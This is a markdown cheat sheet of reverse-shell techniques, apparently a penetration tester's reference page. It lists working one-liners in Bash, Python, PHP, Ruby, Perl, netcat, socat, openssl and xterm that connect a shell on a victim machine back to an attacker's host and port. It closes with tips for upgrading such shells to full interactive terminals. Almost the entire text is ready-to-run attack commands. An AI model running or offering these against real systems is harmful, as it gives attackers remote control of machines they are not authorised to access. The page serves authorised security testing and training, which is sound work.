 ```yaml
---
title: Reverse Shells
---
```


Examples generally use `$HOST` and `$PORT` for the target host and port for the
shell callback.

## Bash ##

Bash **only** reverse shells generally require that `/dev/tcp` is enabled in
bash at build-time.

```
bash -i >& /dev/tcp/$HOST/$PORT 0>&1
```

Use redirection through a temporary FD (in this case, 42).

```
0<&42;exec 42<>/dev/tcp/$HOST/$PORT; sh <&42 >&42 2>&42
```

## Python ##

```
python -c 'import socket as so,subprocess,os;s=so.socket(so.AF_INET,so.SOCK_STREAM);s.connect(("$HOST",$PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP ##

```
php -r '$sock=fsockopen("$HOST",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby ##

```
ruby -rsocket -e'f=TCPSocket.open("$HOST",$PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Perl ##

```
perl -e 'use Socket;$i="$HOST";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Common Utilities ##

Sometimes you can just use a utility available on the system.

### Netcat (Traditional) ###

```
nc -e /bin/sh $HOST $PORT
```

### Socat ###

[Socat is also a great handler for the shells](https://systemoverlord.com/2018/01/20/socat-as-a-handler-for-multiple-reverse-shells.html)

```
socat TCP:$HOST:$PORT exec:/bin/bash,pty,stderr,setsid
```

You can even get a full pty if you use socat as your listener.

Listener:

```
socat file:`tty`,raw,echo=0 tcp-listen:$PORT
```

Victim:

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

### Netcat (OpenBSD) ###

OpenBSD netcat removed the `-e` flag "for security."  All of these mechanisms
will also work on traditional netcat.

```
rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|nc $HOST $PORT >/tmp/f
```

### OpenSSL ###

For your encrypted reverse shells!  Depends on the openssl command line binary.
It's a lot like OpenBSD netcat.

```
rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|openssl s_client -connect $HOST:$PORT >/tmp/f
```

### Xterm ###

This is very different.  Instead of forwarding a shell, forward a whole terminal
emulator!

Attacker host:

```
xnest :1
xhost +targetip
```

On the target:

```
xterm -display $HOST:1
```

## Reverse Shell Tips ##

So a basic reverse shell pretty much sucks.

- Hitting `^C` is a terrible experience.  (Usually kills the listener, not what
  you ran on the server.)
- No history, job control, etc.
- Can't use most editors.

### Getting a pty (python) ###

Probably the most commonly known technique:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Getting a pty (expect) ###

Expect isn't as commonly installed as python, but this is a good choice for some
circumstances.

```
cat >/tmp/e.exp <<EOF
#!/usr/bin/expect
spawn bash
interact
EOF
expect /tmp/e.exp
```

### Upgrading via python + stty ###

[Inspiration](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

Before connection:

```
echo 'After connection, please run: '
echo python -c 'import pty; pty.spawn("/bin/bash")'
echo export SHELL=bash
echo export TERM=$TERM
echo stty rows $(stty -a | tr ';' '\n' | awk '/^ rows/{print $2}') columns $(stty -a | tr ';' '\n' | awk '/^ columns/{print $2}')
stty raw -echo  # Note, you will lose echo here.
nc -lvp $PORT
```

After connecting, run the commands provided by the original script, and you
should be good to go.
